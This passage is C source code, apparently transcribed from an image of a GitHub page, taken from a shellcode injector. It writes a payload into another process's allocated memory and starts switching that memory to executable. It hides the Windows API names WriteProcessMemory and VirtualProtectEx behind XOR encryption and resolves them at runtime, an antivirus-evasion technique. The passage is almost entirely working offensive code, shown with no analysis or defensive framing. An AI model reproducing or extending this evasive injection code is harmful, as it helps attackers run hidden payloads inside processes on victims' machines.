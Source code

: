 ```python

    if( NULL == target_process_allocated_memory )
    {
        // printf( "[!] Could not allocate memory!\n" );
        return 1;
    }

    // printf( "[+] Successfully allocated memory!\n" );

    //
    // WRITE TO ALLOCATED MEMORY
    //
    BOOL return_check = FALSE;

    unsigned char WriteProcessMemory_encrypted[] = { 0x00, 0x25, 0x3e, 0x23, 0x32, 0x07, 0x25, 0x38, 0x34, 0x32, 0x24, 0x24, 0x1a, 0x32, 0x3a, 0x38, 0x25, 0x2e, 0x57 };
    xor_decrypt( WriteProcessMemory_encrypted, sizeof(WriteProcessMemory_encrypted) );

    BOOL( WINAPI * _WriteProcessMemory )
    (
        HANDLE  hProcess,
        LPVOID  lpBaseAddress,
        LPCVOID lpBuffer,
        SIZE_T  nSize,
        SIZE_T  *lpNumberOfBytesWritten    
    );

    _WriteProcessMemory = ( BOOL(WINAPI *)
    (
        HANDLE  hProcess,
        LPVOID  lpBaseAddress,
        LPCVOID lpBuffer,
        SIZE_T  nSize,
        SIZE_T  *lpNumberOfBytesWritten     
    )) GetProcAddress( kernel32_dll_handle, WriteProcessMemory_encrypted );

    if( NULL == _WriteProcessMemory )
    {
        // printf( "Could not resolve WriteProcessMemory!\n" );
        return 1;
    }

    return_check = _WriteProcessMemory( target_process, target_process_allocated_memory, payload, payload_size, NULL );

    if( FALSE == return_check )
    {
        // printf( "[+] WriteProcessMemory returned false!\n" );
        return 1;
    }

    //
    // UPDATE PERMISSIONS TO ALLOW EXECUTION
    //
    DWORD old_protect = NULL;

    unsigned char VirtualProtectEx_encrypted[] = { 0x01, 0x3e, 0x25, 0x23, 0x22, 0x36, 0x3b, 0x07, 0x25, 0x38, 0x23, 0x32, 0x34, 0x23, 0x12, 0x2f, 0x57 };
    xor_decrypt( VirtualProtectEx_encrypted, sizeof(VirtualProtectEx_encrypted) ); 

    BOOL( WINAPI * _VirtualProtectEx )
    (
        HANDLE hProcess,
```